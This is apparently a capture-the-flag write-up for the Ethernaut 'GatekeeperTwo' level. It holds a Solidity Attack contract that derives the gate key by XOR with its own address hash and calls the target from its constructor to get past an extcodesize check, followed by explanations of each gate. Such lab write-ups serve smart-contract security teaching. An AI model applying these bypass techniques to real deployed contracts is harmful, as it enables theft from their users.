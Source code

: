 # GatekeeperTwo
This levels requires you to get familiar with the Ethereum yellow paper and pass three more gates.
## code:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;
interface GatekeeperTwo{
    function enter(bytes8) external returns (bool);
}

contract Attack{
    GatekeeperTwo victim ;  
    constructor(address _victim) public {
        victim = GatekeeperTwo(_victim);
        bytes8 gate_key = bytes8(uint64((uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ));
        bool success = victim.enter(gate_key);
        require(success,"Failed");
    }

}
```
## gate one:
Two pass gate one you should use another contract to do the attack same as telephone level.
## gate two:
Gate two requires the address not to be a contract that means the code in that address should be 0.
To pass this gate you should initiate the attack from the constructor where the code size of the contract is still 0.
## gate three:
Gate three is using xor `a ^ b = c` we have `a` and `c` so we can  get b by `c ^ a`.  

